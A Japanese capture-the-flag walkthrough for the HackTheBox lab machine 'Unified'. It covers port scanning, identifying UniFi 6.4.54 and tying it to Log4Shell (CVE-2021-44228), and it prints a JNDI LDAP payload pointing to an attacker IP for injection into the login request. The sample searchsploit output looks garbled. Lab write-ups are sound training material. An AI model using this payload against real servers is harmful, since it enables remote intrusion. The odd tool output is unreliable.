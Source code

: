# HackTheBox: Unified Walkthrough

## 1. ポートスキャン

```bash
nmap -sC -sV -p- -oA portscan unified.htb
```

### Q1. 開いているポート
```
22, 6789, 8080, 8443
```

## 2. Webアプリの確認

- ブラウザで `http://unified.htb:8080` にアクセス
- ログインページが表示される
- Webアプリは **UniFi Network Controller v6.4.54**

### Q2. 製品名
```
UniFi Network
```

## 3. 脆弱性調査

```bash
searchsploit unifi 6
# 結果例:
# ssx php/webapps/w9268.java
```

- Google検索: `"unifi 6.4.54 exploit"`
- 見つけた情報:
  - Sprocket Security の記事
  - GitHubリポジトリ: `puzzlepeaches/Log4jUnifi`

### Q3. バージョン
```
6.4.54
```

### Q4. 脆弱性識別子
```
CVE-2021-44228 (Log4Shell)
```

## 4. Exploit準備

- Burp Suite でログインページの通信をキャッチ
- `remember` フィールドに以下のペイロードを挿入：

```text
${jndi:ldap://10.10.16.28:1389/o=tomcat}
```

- 攻撃者側でLDAPリクエストを監視：

```bash
sudo tcpdump -i tun0 port 1389
```

---
